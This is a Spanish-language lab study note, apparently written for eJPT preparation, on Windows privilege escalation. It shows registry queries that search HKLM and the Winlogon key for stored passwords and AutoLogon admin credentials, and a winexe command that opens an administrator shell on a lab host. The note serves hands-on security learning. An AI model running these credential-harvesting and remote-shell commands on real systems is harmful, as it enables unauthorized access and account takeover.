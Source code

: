 (Por alguna razón a veces la contraseña no se almacena en el registro. Si este es el caso, use lo siguiente como respuesta: contraseña123)  

- Se puede buscar en el registro las claves y valores que contienen la palabra "contraseña":

```
reg query HKLM /f password /t REG_SZ /s
```

- Si desea ahorrar algo de tiempo, consulte esta clave específica para encontrar las credenciales de administrador de AutoLogon:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

- En Kali, use el comando winexe para generar un símbolo del sistema que se ejecuta con los privilegios de administrador (actualice la contraseña con la que encontró):

```
winexe -U 'admin%password' //10.10.226.103 cmd.exe
```


enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Passing the Hash]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Saved Creds]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Security Account Manager (SAM)]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]


